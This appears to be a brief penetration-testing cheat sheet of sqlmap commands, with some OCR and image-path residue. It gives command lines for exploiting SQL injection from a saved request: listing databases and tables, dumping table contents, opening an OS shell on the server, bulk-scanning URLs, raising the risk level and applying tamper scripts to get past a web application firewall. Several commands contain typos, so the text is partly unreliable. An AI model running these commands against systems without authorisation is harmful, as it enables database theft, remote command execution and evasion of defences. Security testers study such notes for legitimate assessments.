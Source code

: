 <h3>with request</h3>
`sqlmap -r <path/to/request.txt> --dbs
`sqlmap -r <path/to/request.txt> -D <name of database> --tables
`sqlmap -r <path/to/request.txt> -D <name of database> -T <table name> --dump
OR w/ os-shell
`sqlmap -r <path/to/request.txt> --os-shell

<h5>bulk scanning</h5>
`sqlmap -r <path/to/links.txt> --dbs
`sqlmap -r <path/to/links.txt> -D <name of database> --tables
`sqlmap -r <path/to/inks.txt> -D <name of database> -T <table name> --dump
added risk 2 (default 1)
`sqlmap -r <path/to/request.txt> --risk=2 -D <name of database> -T <table name> --dump

<h5>waf bypass</h5>
`sqlmap -list-tampers (all tampers)
`slqmap -r <path to request> --tamper="name of tamper" --dbs

<h5>not injectable/not dynamic</h5>
`sqlmap -r <request> --dbs --second-url=<url before param/file>
NOTE: request is sa repeeater (complete url)
second url is before tong param or file

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)